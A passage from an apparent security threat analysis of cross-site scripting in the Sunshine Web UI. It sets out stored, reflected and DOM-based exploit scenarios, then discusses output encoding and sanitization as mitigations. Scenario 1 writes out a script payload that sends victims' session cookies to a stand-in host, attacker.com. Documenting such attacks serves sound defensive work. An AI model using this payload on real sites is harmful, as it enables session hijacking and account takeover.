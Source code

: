 Here are a few concrete exploit scenarios:

*   **Scenario 1: Stored XSS in Configuration Setting:**
    1.  An attacker identifies a configuration setting in the Sunshine Web UI, for example, a "Server Description" field.
    2.  The attacker enters malicious JavaScript code into this field, such as `<script>document.location='http://attacker.com/cookie_stealer.php?cookie='+document.cookie;</script>`.
    3.  The Sunshine application stores this malicious script in its database.
    4.  When other users (including administrators) access the configuration page or any page that displays the "Server Description," the malicious script is retrieved from the database and rendered in their browser *without proper encoding*.
    5.  The script executes, sending the user's session cookie to `attacker.com`, allowing the attacker to hijack their session.

*   **Scenario 2: Reflected XSS in Search Functionality:**
    1.  The Sunshine Web UI has a search bar.
    2.  The search query is reflected in the URL and displayed on the search results page without proper encoding.
    3.  An attacker crafts a malicious URL like `https://sunshine-webui.example.com/search?query=<script>alert('XSS Vulnerability!');</script>`.
    4.  The attacker tricks a user into clicking this link (e.g., through phishing or social engineering).
    5.  When the user clicks the link, the browser sends the request to the Sunshine Web UI.
    6.  The Web UI reflects the malicious script from the `query` parameter in the search results page *without proper encoding*.
    7.  The script executes in the user's browser, displaying an alert box (in this example, but it could be more malicious code).

*   **Scenario 3: DOM-based XSS in Dynamic Content Update:**
    1.  The Web UI uses JavaScript to dynamically update a section of the page based on data received from a WebSocket connection.
    2.  This data includes user-provided messages or data influenced by user input.
    3.  The JavaScript code uses `innerHTML` to insert this data into the DOM *without proper sanitization or encoding*.
    4.  An attacker can manipulate the data sent through the WebSocket (e.g., by compromising another part of the system or through a man-in-the-middle attack if the WebSocket connection is not secure) to include malicious JavaScript.
    5.  When the Web UI receives this malicious data and updates the DOM using `innerHTML`, the script executes in the user's browser.

#### 4.6. Mitigation Analysis (Deep Dive)

The proposed mitigation strategies are crucial for addressing the XSS threat:

*   **Implement Robust Output Encoding and Sanitization:**
    *   **Effectiveness:** This is the most fundamental and effective mitigation strategy. By properly encoding output, we ensure that user-supplied data is treated as data and not as executable code by the browser.
    *   **Implementation:**
        *   **Context-Aware Encoding:**  Use encoding appropriate for the context where the data is being displayed (HTML encoding, JavaScript encoding, URL encoding, CSS encoding).  HTML encoding is most common for preventing XSS in HTML content.
        *   **Framework Support:** Utilize built-in output encoding functions provided by the web development framework used for the Sunshine Web UI. Most modern frameworks offer robust encoding mechanisms.
        *   **Sanitization (Cautiously):**  Sanitization (removing potentially harmful parts of input) can be used in specific cases, but it is generally less robust than output encoding and can be bypassed if not implemented carefully.  Whitelisting safe HTML tags and attributes can be considered for rich text input, but requires careful management and testing.  *Encoding is generally preferred over sanitization for XSS prevention.*
        *   **Regular Review:**  Code related to output encoding should be regularly reviewed to ensure it is correctly implemented and covers all user-supplied data displayed in the Web UI.

